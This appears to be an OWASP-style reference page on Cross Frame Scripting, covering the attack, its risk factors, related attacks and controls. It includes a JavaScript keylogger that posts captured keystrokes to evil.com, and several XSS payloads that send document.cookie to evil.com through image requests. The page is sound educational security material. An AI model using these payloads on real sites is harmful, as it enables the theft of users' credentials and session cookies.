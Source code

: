 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting
author: Rezos, Justin Ludwig
contributors: KristenS, Michael Brooks, Andrew Smith, kingthorin
permalink: /attacks/Cross_Frame_Scripting
tags: attack, Cross Frame Scripting

---
```


{% include writers.html %}

## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as they try to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like they are actually visiting example.com The
attacker registers some JavaScript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

```html
<!-- http://evil.com/example.com-login.html -->
<head>
<script>
// array of user keystrokes
var keystrokes = [];
// event listener which captures user keystrokes
document.onkeypress = function() {
    keystrokes.push(window.event.keyCode);
}
// function which reports keytrokes back to evil.com every second
setInterval(function() {
    if (keystrokes.length) {
        var xhr = newXHR();
        xhr.open("POST", "http://evil.com/k");
        xhr.send(keystrokes.join("+"));
    }
    keystrokes = [];
}, 1000);
// function which creates an ajax request object
function newXHR() {
    if (window.XMLHttpRequest)
        return new XMLHttpRequest();
    return new ActiveXObject("MSXML2.XMLHTTP.3.0");
}
</script>
</head>
<!-- re-focusing to this frameset tricks browser into leaking events -->
<frameset onload="this.focus()" onblur="this.focus()">
<!-- frame which embeds example.com login page -->
<frame src="http://example.com/login.html">
</frameset>
```

### XSS Attack Using Frames

To exploit a [Cross Site Scripting]({{ site.baseurl }}/attacks/xss/) on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some JavaScript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

```html
<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>
```

The iframe is hidden off-screen, so the browser user won't have any idea
that they just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

```html
<meta http-eqiv="refresh" content="1;url=http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>">
```

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that they
just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that they are visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting]({{ site.baseurl }}/attacks/xss/) as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some JavaScript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

```html
http://example.com/flawed-page.html?=<iframe src="↵
    javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>
```

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

- An XFS attack exploiting a browser bug which leaks events across
frames is similar to an attack which uses conventional key-logging
software.

## Related Attacks

- An attacker might use a hidden frame to carry out a [Cross-site Scripting (XSS)](xss) attack.
- An attacker might use a hidden frame to carry out a [Cross-Site Request Forgery (CSRF)]({{ site.baseurl }}/attacks/csrf) attack.
- An attacker might use a visible frame to carry out a [Clickjacking](Clickjacking) attack.
- An XFS attack exploiting a browser bug which leaks events across frames is a form of a Phishing attack (the
attacker lures the user into typing-in sensitive information into a frame containing a legitimate third-party page).

## Related Vulnerabilities

- XFS attacks exploit specific browser bugs.

## Related Controls

- XFS attacks may denied by preventing the third-party web page from
being framed; the techniques used to do this are the same as those
used for Clickjacking Protection.

## References

- MSDN article [About Cross-Frame Scripting and Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
- iDefense Labs advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)
